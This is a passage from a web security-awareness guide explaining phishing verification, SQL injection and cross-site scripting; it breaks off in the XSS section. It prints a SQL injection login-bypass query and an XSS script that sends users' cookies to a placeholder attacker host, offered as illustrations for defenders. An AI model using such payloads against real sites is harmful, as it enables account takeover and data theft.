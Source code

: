 #### 4. Verify unusual requests

Instruct users to confirm unusual or sensitive requests by contacting the sender through trusted channels.

Many phishing attacks rely on social engineering tactics that impersonate executives, vendors, or IT staff. Teach employees to never trust high-risk requests such as wire transfers, password resets, or requests for sensitive data without verifying them first.

Emphasize that verification must happen through a separate channel. For example, calling the person directly or messaging them through a known company app. Simply replying to the original email or message could mean continuing the conversation with the attacker.

---

## 2. SQL Injection, XSS, and CSRF

Rather than "conning" users, these attacks exploit weaknesses in web elements and architecture.

Using malicious queries, scripts, and requests, hackers can bypass authentication, capture cookie data, and force transactions. They often target the very forms and scripts businesses rely on to capture leads or gather customer data.

### SQL Injection

Hackers send SQL codes through form input fields, the search bar, or URL parameters to access website databases. If the input isn't properly validated or sanitized, the database executes the attacker's code that will manipulate and [<VPIcon icon="fas fa-globe"/>expose sensitive data on the dark web](https://aura.com/learn/how-to-find-out-if-my-information-is-on-the-dark-web).

SQL injection exploits unvalidated input fields to search, modify, or delete records from within the database.

::: tip SQL injection example:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '';
```

:::

### Cross-Site Scripting (XSS)

Scripts are injected into web pages, leveraging them against future users.

Cross-Site Scripting (XSS) means that attackers can use scripts on web pages to steal session information from cookies or redirect users to "impersonation" sites.

Here’s how it works: A hacker injects a malicious script into a public form (such as a comment section). The website then displays the comment without sanitizing the content. Eventually, other users load the page and unknowingly run the attacker's script.

::: tip XSS example

```html
<script>document.location='http://malicious-site.com?cookie='+document.cookie;</script>
```
